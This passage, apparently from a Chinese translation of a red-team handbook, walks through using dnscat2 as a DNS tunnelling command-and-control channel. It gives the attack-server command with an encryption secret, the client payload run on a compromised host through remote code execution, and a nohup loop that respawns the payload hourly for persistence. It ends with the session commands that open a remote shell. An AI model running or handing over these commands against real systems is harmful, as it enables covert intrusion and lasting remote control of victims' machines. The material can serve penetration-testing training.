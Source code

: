 现在我们已经配置好了权威 DNS，我们的攻击服务器作为一个 DNS 服务器正在运行 dnscat2，并且我们已经编译了恶意软件。我们已经准备好在目标机器中执行我们的 payload。

在开始之前，我们需要在攻击服务器上启动 dnscat2。要启用多个配置，其中的主要配置是配置那个 `-secret` 标志来确保我们在 DNS 请求中的通信是加密的。另外，一定要更换我上面用于演示的 loca1host.com 域名，使用你自己拥有的域名并创建随机密钥字符串。

在你的攻击服务器中启用 dnscat2:
```
screen
ruby ./dnscat2.rb loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

假设你在易受攻击的服务器上有某种 RCE（远程命令执行漏洞）。 你可以运行 shell 命令并上传我们的 dnscat payload。执行 payload：
```
./dnscat loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

这将在目标机器中启动 dnscat，域名查询使用了我们自定义的的权威服务器，从而创建我们的 C2 通道。 我留意到一件事是有时 dnscat2 进程会莫名其妙挂掉。这可能来自大型文件传输或者只是程序崩了。为了规避这些类型的问题，我想确认我的 dnscat payload 有返回。为此，我通常喜欢使用快速 bash 脚本启动我的 dnscat payload：
```
nohup /bin/bash -c “while true; do /opt/dnscat2/client/dnscat loca1host.com -secret 9dfj3hdsfajh37e8c902j -max-retransmits 5; sleep 3600; done” > /dev/null 2>&1 &
```

这将确保如果客户端 payload 进程因任何原因而挂掉了，它将每小时生成一个新的实例。有时你只有一次机会来运行你的 payload，那么你需要让程序自己计数！
最后，如果你要在 Windows 上跑这个 payload，你可以编译使用 dnscat2 payload......或者，为什么不在 PowerShell 中执行此操作呢？！ Luke Baggett 写了一个关于 dnscat 客户端的 PowerShell 版本->[点此查看](https://github.com/lukebaggett/dnscat2-powershell)。

#### dnscat2的连接
在我们的 payload 执行并连接回我们的攻击服务器之后，我们应该看到类似于下面的一个新的`ENCRYPTED AND VERIFIED`消息。通过输入 “window”，dnscat2 将显示所有会话。现在，我们有一个名为“1”的单行命令会话。

![](img/1-12.png)

我们可以通过与我们的命令会话交互来生成终端样式 shell:
- 与我们的第一个命令会话进行交互
```
window -i 1
```
- 启动shell会话
```
shell
```
- 回到主会话
```
Ctrl-z
```
- 与 2 会话进行交互
```
window -i 2
```
- 现在，你应该能够运行所有 shell 命令（例如 ls）
